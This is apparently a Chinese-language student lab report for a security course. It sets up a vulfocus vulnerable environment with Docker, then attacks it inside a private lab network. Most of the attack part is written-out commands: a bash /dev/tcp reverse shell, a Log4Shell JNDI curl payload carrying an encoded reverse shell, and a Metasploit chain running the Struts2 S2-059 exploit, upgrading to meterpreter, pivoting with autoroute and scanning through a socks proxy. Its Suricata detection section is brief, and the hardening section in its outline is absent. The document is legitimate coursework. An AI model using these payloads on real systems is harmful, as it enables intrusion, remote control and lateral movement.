网络安全综合实验：开源信息系统搭建、加固与漏洞攻防
## 内容提纲
- 基础运行环境准备
- 漏洞攻防环境现状
- 漏洞攻防环境搭建
- 漏洞攻击
- 漏洞利用检测
- 漏洞利用防御与加固
## 直接使用本学期课程实验所用的虚拟机环境

## 配置实验环境

首先输入git clone http://github.com/c4pr1c3/ctf-games.git

这时发现命令行报错


上网查询得知是因为下载的包太大，网速慢超时报错。由于git默认缓存大小不足导致的.
于是对git进行配置

输入 git clone http://github.com/c4pr1c3/ctf-games.git --depth 1



下载完成之后切换目录



然后输入仓库中的命令：
sudo apt update && sudo apt install -y docker.io docker-compose jq

将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令
重新登录 shell 生效
sudo usermod -a -G docker ${USER}

切换到 root 用户
sudo su -

使用中科大 Docker Hub 镜像源
cat <<EOF > /etc/docker/daemon.json
{
  "registry-mirrors": ["https://docker.mirrors.ustc.edu.cn/"]
}
EOF

重启 docker 守护进程
systemctl restart docker

提前拉取 vulfocus 镜像
docker pull vulfocus/vulfocus:latest



切换目录之后运行start.sh


成功配置环境,在浏览器地址栏中输入kali虚拟机的ip地址


## 漏洞攻击

进入容器


把demo.jar复制到宿主机上



进行反编译

## 漏洞攻击

查看支持的shell



通过bash内置的tcp来连接反弹的主机、端口

命令：bash -i >& /dev/tcp/192.168.56.103/7777 0>&1

成功获取flag



下载仓库
wget https://hub.fastgit.org/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip 



输入以下命令

url http://192.168.56.216:19825/hello -d 'payload=${jndi:ldap://192.168.56.103:7777/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.56.103/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'  

## 漏洞利用检测

## 漏洞利用流量检测

docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:6.0.4

docker exec -it suricata suricata-update -f

docker exec -it suricata tail -f /var/log/suricata/fast.log

输入以上指令

## 攻击靶标

切换到攻击者主机

输入以下指令
sudo apt install -y metasploit-framework

sudo msfdb init

msfconsole

db_status

workspace -a demo
db_nmap -p 29551 192.168.56.216 -n -A

search struts2 type:exploit

### 查看 exp 详情
####  可以直接通过搜索结果编号，也可以通过搜索结果的 Name 字段
info 2

### 继续完善搜索关键词
search S2-059 type:exploit

# Matching Modules

###  使用上述 exp
use 0

### 查看 exp 可配置参数列表
show options

### 查看可用 exp payloads
show payloads

### 使用合适的 exp payload
set payload payload/cmd/unix/reverse_bash

### 配置 exp 参数
### 确保所有 Required=yes 参数均正确配置

### 靶机 IP
set RHOSTS 192.168.56.103
### 靶机目标端口
set rport  29551          
### 攻击者主机 IP
set LHOST  192.168.56.214 

### 再次检查 exp 配置参数列表
show options

### getshell
run -j

### 如果攻击成功，查看打开的 reverse shell
sessions -l

### 进入会话 1
sessions -i 1
### 无命令行交互提示信息，试一试 Bash 指令
id

### get flag-1
ls /tmp
### flag-{bmh59f8b130-69ea-495d-86a9-dbf789e18b3f}

### 通过 CTRL-Z 将当前会话放到后台继续执行



## 发现靶标234

### upgrade cmdshell to meterpreter shell
### 也可以直接 sessions -u 1
search meterpreter type:post
use post/multi/manage/shell_to_meterpreter
show options
set lhost 192.168.56.214
set session 1

run -j

sessions -l

### 进入 meterpreter 会话 2
sessions -i 2

### setup pivot: run autoroute
### 查看网卡列表
ipconfig

### 查看路由表
route

### 查看 ARP 表
arp

run autoroute -s 192.170.84.0/24

### 检查 Pivot 路由是否已创建成功
run autoroute -p

### portscan through pivot
search portscan
use auxiliary/scanner/portscan/tcp
show options
### 根据子网掩码推导
set RHOSTS 192.170.84.2-254
### 根据「经验」
set rport 7001
### 根据「经验」
set threads 10
### 开始扫描
run -j

### 等到扫描结果 100%
### 查看主机存活情况
hosts

### 查看发现的服务列表
services

### setup socks5 proxy 
search socks_proxy
use auxiliary/server/socks_proxy
run -j
### 查看后台任务
jobs -l

sudo lsof -i tcp:1080 -l -n -P
### COMMAND    PID     USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
### ruby    299727     1000   10u  IPv4 910459      0t0  TCP *:1080 (LISTEN)

### 编辑 /etc/proxychains4.conf
sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf

proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5

### 回到 metasploit 会话窗口
### 重新进入 shell 会话
sessions -i 1
curl http://192.170.84.2:7001 -vv
curl http://192.170.84.3:7001 -vv
curl http://192.170.84.4:7001 -vv

